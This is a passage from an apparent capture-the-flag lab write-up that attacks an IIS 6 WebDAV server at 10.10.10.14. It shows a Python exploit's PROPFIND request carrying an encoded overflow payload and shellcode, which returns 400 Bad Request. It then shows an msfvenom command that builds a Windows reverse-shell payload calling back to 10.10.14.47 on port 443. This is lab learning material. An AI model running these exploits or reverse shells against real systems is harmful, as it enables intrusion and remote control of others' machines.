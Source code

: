 

Now I can add that into the script. I'll also change the target IP from
127.0.0.1 to 10.10.10.14.

This failed me:



    root@kali# python iis6-webdav-exploit.py
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 0
    If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ
    ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ
    ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ
    ￢ﾧﾧ￦ﾠﾁ`1dP0R
    8u};}$uXX$fￓﾋI:I41|,
    KXￓﾋ￐ﾉD$$[[aYZQ__Z]h32hws2_ThLw&ￕﾸ)TPh)kPPPP@P@Phￕﾗjh
    /hjVWhtaￕﾅt
              uhVhcmdWWW1jYVfD$<D$DTPVVVFVNVVSVhy?ￕﾉNVF0`ￕﾻVh<|
    uGrojS>


    HTTP/1.1 400 Bad Request
    Content-Type: text.md
    Date: Wed, 27 May 2020 20:19:05 GMT
    Connection: close
    Content-Length: 20

    <h1>Bad Request</h1>  



In doing some reading, it seems that this exploit requires some
specifics things about the shellcode, which led me to the next attempt.

### ExplodingCan - Kinda Fail

The nicest script I found is [this
one](https://github.com/danigargu/explodingcan), which runs with a
target url and a shellscript file. I created shellcode the same way as
in the example:



    root@kali# msfvenom -p windows/shell_reverse_tcp -f raw -e x86/alpha_mixed LHOST=10.10.14.47 LPORT=443 > shellcode_rev_10.10.14.47_443
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/alpha_mixed
    x86/alpha_mixed succeeded with size 710 (iteration=0)
    x86/alpha_mixed chosen with final size 710
    Payload size: 710 bytes
